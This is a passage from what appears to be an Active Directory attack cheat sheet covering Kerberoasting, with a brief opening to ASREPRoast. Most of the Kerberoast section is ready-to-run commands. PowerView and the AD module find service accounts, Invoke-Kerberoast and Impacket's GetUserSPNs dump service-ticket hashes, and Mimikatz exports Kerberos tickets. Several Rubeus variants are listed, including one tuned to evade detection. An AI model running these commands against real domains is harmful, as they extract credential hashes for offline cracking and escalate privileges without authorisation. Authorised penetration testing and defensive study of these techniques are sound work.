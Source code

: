   
## Domain Privilege Escalation

### Kerberoast
*WUT IS DIS?:* \
 All standard domain users can request a copy of all service accounts along with their correlating password hashes, so we can ask a TGS for any SPN that is bound to a "user"    
 account, extract the encrypted blob that was encrypted using the user's password and bruteforce it offline.

  - PowerView:
  ```
  #Get User Accounts that are used as Service Accounts
  Get-NetUser -SPN
  
  #Get every available SPN account, request a TGS and dump its hash
  Invoke-Kerberoast
  
  #Requesting the TGS for a single account:
  Request-SPNTicket
    
  #Export all tickets using Mimikatz
  Invoke-Mimikatz -Command '"kerberos::list /export"'
  ```
  - AD Module:
  ```
  #Get User Accounts that are used as Service Accounts
  Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
  ```
  - Impacket:
  ```
  python GetUserSPNs.py <DomainName>/<DomainUser>:<Password> -outputfile <FileName>
  ```
  - Rubeus:
  ```
  #Kerberoasting and outputing on a file with a spesific format
  Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName>
  
  #Kerberoasting whle being "OPSEC" safe, essentially while not try to roast AES enabled accounts
  Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /rc4opsec
  
  #Kerberoast AES enabled accounts
  Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /aes
   
  #Kerberoast spesific user account
  Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /user:<username> /simple
  
  #Kerberoast by specifying the authentication credentials 
  Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /creduser:<username> /credpassword:<password>
  ```
### ASREPRoast
 *WUT IS DIS?:* \
  If a domain user account do not require kerberos preauthentication, we can request a valid TGT for this account without even having domain credentials, extract the encrypted  
  blob and bruteforce it offline. 
 